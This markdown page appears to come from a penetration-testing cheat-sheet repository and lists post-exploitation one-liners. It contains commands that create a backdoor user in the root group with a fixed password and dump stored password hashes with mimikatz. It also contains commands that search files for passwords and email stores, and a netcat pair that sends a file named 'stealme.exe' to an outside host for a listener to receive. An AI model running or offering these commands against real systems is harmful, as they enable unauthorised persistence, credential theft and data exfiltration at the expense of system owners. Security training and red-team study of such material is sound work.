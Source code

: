 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/5_effect.md">Top of Page</a> |
  <a href="/CheatSheets/5_effect.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Effect
* [One-liner: useradd and chpasswd](#one-liner-useradd-and-chpasswd)
* [Dump Passwords](#dump-passwords)
* [Find Password Files](#find-password-files)
* [Find Emailboxes](#find-emailboxes)
* [Get Network Connections](#get-network-connections)
* [Exfil via Netcat](#exfil-via-netcat)

## One-liner: useradd and chpasswd
```bash
useradd victor -g root -s /bin/bash && echo victor:password | chpasswd
useradd -p $(openssl passwd -crypt password) -s /bin/bash -g 0 victor
```

## Dump Passwords
```bash
mimikatz.exe "lsadump::sam"
```

## Find Password Files
```bash
findstr /si password *.xml *.ini *.txt (Find passwords)
```

## Find Emailboxes
```bash
dir *.dbx /s 
```

## Get Network Connections
```bash
# all connections, no name resolution, and print owning PID 
netstat -ano 

# print filepath of each network-connected binary
(Get-NetTcpConnection).OwningProcess | ForEach-Object { Get-Process -Id $_ | Select-Object -ExpandProperty Path } | Sort-Object | Get-Unique
```

## Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/5_effect.md">Top of Page</a> |
  <a href="/CheatSheets/5_effect.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page

